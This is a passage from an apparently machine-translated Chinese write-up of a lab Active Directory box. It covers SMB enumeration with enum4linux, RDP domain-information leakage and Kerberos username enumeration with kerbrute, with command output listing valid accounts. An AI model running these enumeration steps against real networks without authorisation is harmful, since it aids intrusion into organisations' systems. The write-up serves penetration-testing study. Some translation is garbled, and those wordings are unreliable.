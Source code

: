 ```
49684/tcp open  msrpc         Microsoft Windows RPC
49695/tcp open  msrpc         Microsoft Windows RPC
```

我可以看到一些由 NMAP 确定的有趣的服务运行在开放的端口上，我们可以进一步列举。

# SMB 枚举

我可以看到端口 139 和 445 是打开的。端口 139 和 445 用于**认证和文件共享**。有多种工具可用于枚举端口 139/445。我们可以从使用 **enum4linux** 来查找目标上的股份信息开始。

```
# -a: does all simple enumeration(-U -S -G -P -r -o -n -i).
$ enum4linux -a 10.10.201.126============================================ 
|    Getting domain SID for 10.10.201.126    |
 ============================================ 
Domain Name: THM-AD
Domain Sid: S-1-5-21-3591857110-2884097990-301047963
[+] Host is part of a domain (not a workgroup)
```

这为我们提供了一些有用的信息，比如机器的**NetBIOS-域名**，它是 DNS 域名的子域。

# RDP 枚举

继续查看之前执行的 NMAP 扫描的输出，我可以看到端口 3389 (RDP)上泄露了一些额外的 Windows 主机和域信息。

```
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: THM-AD
|   NetBIOS_Domain_Name: THM-AD
|   NetBIOS_Computer_Name: ATTACKTIVEDIREC
|   DNS_Domain_Name: spookysec.local
|   DNS_Computer_Name: AttacktiveDirectory.spookysec.local
|   Product_Version: 10.0.17763
|_  System_Time: 2022-03-20T15:10:30+00:00
```

我还可以看到顶级域名(TLD) **。使用了 local** ，这是人们过去常用的活动目录域，但根据[活动目录命名常见问题解答](https://wiki.samba.org/index.php/Active_Directory_Naming_FAQ)，现在应该避免使用。

# Kerberos 枚举和利用

Kerberos 是运行在端口 88 上的 Active Directory 中的一项关键身份验证服务。我们可以使用工具**Kerberos**来枚举用户，通过 Kerberos 预认证，可以快速强制枚举有效的 Active Directory 帐户。

```
./kerbrute_linux_amd64 userenum --dc 10.10.253.179 -d spookysec.local -o kerbrute-user-enum userlist2022/03/20 15:34:28 >  Using KDC(s):
2022/03/20 15:34:28 >   10.10.253.179:882022/03/20 15:34:29 >  [+] VALID USERNAME: james@spookysec.local
2022/03/20 15:34:35 >  [+] VALID USERNAME: svc-admin@spookysec.local  
2022/03/20 15:34:44 >  [+] VALID USERNAME: James@spookysec.local
2022/03/20 15:34:47 >  [+] VALID USERNAME: robin@spookysec.local
2022/03/20 15:35:14 >  [+] VALID USERNAME: darkstar@spookysec.local
2022/03/20 15:35:37 >  [+] VALID USERNAME:       administrator@spookysec.local
2022/03/20 15:36:11 >  [+] VALID USERNAME: backup@spookysec.local
2022/03/20 15:36:32 >  [+] VALID USERNAME: paradox@spookysec.local
2022/03/20 15:39:16 >  [+] VALID USERNAME: Robin@spookysec.local
2022/03/20 15:43:20 >  [+] VALID USERNAME: Administrator@spookysec.local
2022/03/20 15:51:29 >  [+] VALID USERNAME: Darkstar@spookysec.local
2022/03/20 15:54:07 >  [+] VALID USERNAME: Paradox@spookysec.local
2022/03/20 16:02:39 >  [+] VALID USERNAME: DARKSTAR@spookysec.local
2022/03/20 16:04:59 >  [+] VALID USERNAME: ori@spookysec.local
```